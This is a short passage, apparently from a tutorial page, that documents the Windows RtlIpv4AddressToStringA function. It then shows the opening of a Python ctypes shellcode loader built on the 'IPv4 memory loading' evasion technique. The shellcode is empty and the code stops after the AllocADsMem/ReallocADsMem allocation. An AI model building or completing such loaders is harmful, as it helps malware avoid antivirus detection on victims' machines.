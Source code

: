 ![](img/9.png)

- `RtlIpv4AddressToStringA`: `RtlIpv4AddressToString` function converts the `IPv4` address to a string in the `Internet` standard dot decimal format.

```c++
NTSYSAPI PWSTR RtlIpv4AddressToStringA(
  [in] const in_addr *Addr,
  [out] PWSTR S
);
```

![](img/10.png)

```python
# -*-coding:utf-8 -*-
"""
The ctypes library is a module in Python that calls the system dynamic link library functions. The ctypes library can use the C language dynamic link library and pass functions to it.
IPv4 memory loading
"""
import ctypes

shellcode = b''
if len(shellcode) % 4 != 0:
    null_byte = b'\x00' * (4 - len(shellcode) % 4)
    shellcode += null_byte

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc_1 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode) // 4 * 16))
ptr_realloc_1 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode) // 4 * 16, len(shellcode) // 4 * 16)
```